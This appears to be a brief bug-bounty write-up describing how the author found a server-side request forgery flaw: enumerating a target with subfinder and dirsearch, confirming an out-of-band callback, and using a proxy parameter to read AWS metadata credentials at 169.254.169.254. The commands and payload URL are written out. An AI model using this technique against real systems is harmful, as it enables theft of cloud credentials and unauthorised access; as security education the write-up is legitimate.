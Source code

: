 # My First Case of SSRF Using Dirsearch 🐿️

1. I started by getting all the subdomains and directories of my target using Subfinder
```
subfinder -d target.com | tee target.txt
python3 dirsearch.py -l target.txt --deep-recursive
```
2. I found a URL that was like: 
```
targetconnect-dev.target.com/proxy.stream?origin=https://google.com
```
4. I tried using an Out Of Band Interaction Tester (OOB) like BurpSuite Collaborator and it worked. I received a pingback.
5. I now searched the parameter on Google and found a tweet where someone tried to use the AWS Metadata URL, so I tried using it and it worked.<br>
```
/proxy.stream?origin=http://169.254.169.254/latest/metadata/
```
I was able to view the AWS Metadata credentials.

<br>&nbsp;
## Credit
Based on [Shrirang Diwakar](https://shrirangdiwakar.medium.com/bypassing-403s-like-a-pro-2-100-broken-access-control-66beef4afa8c)'s writeup.
<br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or
<br><br><a href="https://www.buymeacoffee.com/NafisiAslH" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>
